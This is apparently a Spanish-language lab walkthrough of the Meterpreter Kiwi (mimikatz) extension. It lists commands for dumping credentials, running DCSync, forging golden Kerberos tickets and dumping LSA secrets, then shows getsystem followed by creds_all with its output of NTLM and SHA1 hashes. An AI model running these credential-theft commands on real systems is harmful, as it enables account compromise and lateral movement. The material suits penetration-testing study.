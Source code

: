 ```
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitrary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```

Antes haremos un `getsystem` para ser administradores.

Si nosotros ponemos lo siguiente para que nos vuelque todas las credenciales que encuentre en memoria:

```shell
creds_all
```

Info:

```
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1                                      DPAPI
--------  ------           ----                              ----                                      -----
d1se0     DESKTOP-EALA4JN  b1f702c125f162ed66636c7d825429e2  e61017f4322524b60e6c7bfcfd25adfeb2bd56b9  e61017f4322524b60e6c7bfcfd25adfe

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-EALA4JN$  WORKGROUP        (null)
d1se0             DESKTOP-EALA4JN  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
d1se0             DESKTOP-EALA4JN  (null)
```